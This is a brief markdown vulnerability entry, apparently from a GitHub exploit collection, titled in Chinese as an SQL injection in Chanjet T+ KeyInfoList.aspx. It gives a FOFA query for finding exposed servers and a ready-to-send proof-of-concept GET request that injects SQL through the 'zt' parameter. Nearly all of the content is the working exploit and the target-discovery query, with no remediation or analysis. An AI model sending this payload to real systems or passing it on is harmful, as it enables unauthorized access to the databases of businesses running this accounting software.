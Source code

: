 ## 畅捷通TPlus-KeyInfoList.aspx存在SQL注入漏洞


## fofa
```
app="畅捷通-TPlus"
```

## poc
```
GET /tplus/UFAQD/KeyInfoList.aspx?preload=1&zt=')AND+1+IN+(SELECT+sys.fn_varbintohexstr(hashbytes('MD5','1')))--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```
